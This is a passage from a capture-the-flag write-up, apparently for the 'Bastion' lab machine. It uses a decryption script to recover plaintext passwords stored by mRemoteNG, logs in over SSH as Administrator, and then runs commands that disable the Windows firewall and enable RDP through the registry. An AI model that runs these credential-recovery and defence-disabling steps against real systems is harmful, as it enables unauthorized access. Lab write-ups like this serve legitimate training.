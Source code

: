 trying out the python script on the encrypted passwords, we get the following: 

```shell
python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2

python3 mremoteng_decrypt.py -s yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB
Password: bureaulampje
```

Now that we have the Administrator password, all that is left to do is just SSH in as the administrator.

```shell
Microsoft Windows [Version 10.0.14393]         
(c) 2016 Microsoft Corporation. All rights
reserved.                                     

administrator@BASTION
C:\Users\Administrator>whoami
bastion\administrator
```

just for fun, try to turn off the firewall and RDP to the machine: 

```shell
netsh advfirewall set allprofiles state off

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Note to self: remember to document the flags! forgot to document the root flag on this box.

## EOF
